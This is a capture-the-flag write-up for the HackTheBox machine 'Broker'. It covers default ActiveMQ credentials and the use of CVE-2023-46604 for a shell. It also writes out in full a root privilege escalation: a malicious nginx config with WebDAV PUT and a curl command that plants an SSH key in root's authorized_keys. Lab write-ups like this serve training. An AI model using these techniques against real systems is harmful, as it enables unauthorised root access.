# Broker -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Broker (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-06-11

---

## TL;DR

### Default creds on ActiveMQ admin panel. Exploited CVE-2023-46604 for shell. Privesc by abusing sudo nginx to write SSH keys to root's authorized_keys.
---

## Target info

- Host: `10.129.230.87`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`, `8080/tcp`, `8161/tcp (activemq)`

---

## Enumeration

```bash
sudo nmap -Pn -n 10.129.230.87 -sCV -p- --open -vvv
```









## Exploitation

Port 80 -- logged in with `admin:admin` to manage ActiveMQ:



Used Metasploit module or Python exploit for CVE-2023-46604:

- `search activemq` -> `use 9`
- Changed default `SVRPORT` from 8080 to 8040 (port conflict otherwise)

Python exploit: <https://github.com/evkl1d/CVE-2023-46604>

## Privilege escalation

```bash
sudo -l
```







Generated SSH key:



Created a malicious nginx config (`dank.conf`):

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```



This config runs nginx as root with WebDAV PUT enabled, allowing file uploads anywhere on the filesystem.

Copied public key contents:



Uploaded config to target, then started nginx with it:

```bash
sudo /usr/sbin/nginx -c /tmp/dank.conf
```

Wrote SSH public key to root's authorized_keys:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKtaR8DAtB8ux+Mb1jnDqIjqsP2QWDsTLk9e0vE/kebn nobody@nothing'
```



SSH as root:

```bash
ssh -i ./id_ed25519 root@10.129.230.87
```

---

## Lessons & takeaways

- Default creds (`admin:admin`) on ActiveMQ -- always try defaults
- Sudo nginx is dangerous -- a custom config with `dav_methods PUT` and `root /` allows writing anywhere as root
- Generate SSH keys and write them to `/root/.ssh/authorized_keys` for clean root access
---
